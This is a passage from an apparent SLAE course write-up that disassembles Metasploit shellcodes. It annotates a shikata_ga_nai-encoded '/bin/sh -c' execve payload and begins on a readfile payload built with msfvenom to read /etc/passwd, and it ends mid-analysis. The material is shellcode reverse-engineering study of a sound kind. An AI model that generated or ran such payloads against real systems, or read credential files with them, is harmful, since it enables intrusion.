 ```
   0x8048071:   pop    eax ; put 13 into eax, execve syscall  
   0x8048072:   cdq   ; 
   0x8048073:   push   edx ; 
   0x8048074:   pushw  0x632d ; "-c" 
   0x8048078:   mov    edi,esp ; 
   0x804807a:   push   0x68732f ; "/sh" 
Interestingly this was containing null byte decrypted previously
but in encrypted format null byte was avoided, double usage of encryption 
   0x804807f:   push   0x6e69622f "/bin" 
   0x8048084:   mov    ebx,esp  
   0x8048086:   push   edx
   0x8048087:   call   0x804809b ; we see the call trick again, push next instruction pointer to stack 
; which contains the payload of "/bin/sh -c" 
; proof : 
cx/1s 0x804808c
c0x804808c:      "echo SLAEisrad"

; syscall finally 
gdb$ x/4i 0x804809b
   0x804809b:   push   edi ; push ptr to "-c"
   0x804809c:   push   ebx ; push ptr to "/bin/sh" 
   0x804809d:   mov    ecx,esp ; move pointer to arguments in ecx  
   0x804809f:   int    0x80 ; execve  
```

As a conclusion one round of  shikata ga nai does : 
1. elect a random number for key 
2. use XOR for encrypt / decrypt with various registers and size 
3. decrypt the upcoming instructions with this key and seed with the result for next decryption 


Remarks: 
This is what ndisasm, static disassembly, shows for second instruction :  
00000005  D9C2              fld st2 ; why fld instead of fxch st(0) , needs to figure out why  
This Gist brought to you by gist-it.view rawas5/analysismsf2.txt


Alright. Job done. Shikata_ga_nai is encoding the shellcode with a XOR with random key using different instructions but which create the same decoding in the end.





## Readfile
We need to progress in linux/x86 so lets check another msf shellcode with more syscalls and analyze it.

```
; SLAE-970
; thanks to previous students write ups 
; assignment 5.3: analyse metasploit shellcodes
; originality: lets check syscall for readfile 
; msfvenom -p linux/x86/readfile -f raw PATH="/etc/passwd" > msfcmdread.raw

; here are the syscalls used by this shellcode: open,read,write 

; first it jumps to 0x38 
00000000  EB36              jmp short 0x38 ; jump

; the following is syscall open 
00000002  B805000000        mov eax,0x5; prepare the open syscall
; here is the function 
; int open(const char *pathname, int flags);
00000007  5B                pop ebx ; the string is inside the ebx register 
00000008  31C9              xor ecx,ecx ; 0 as flags, so O_RDONLY 
```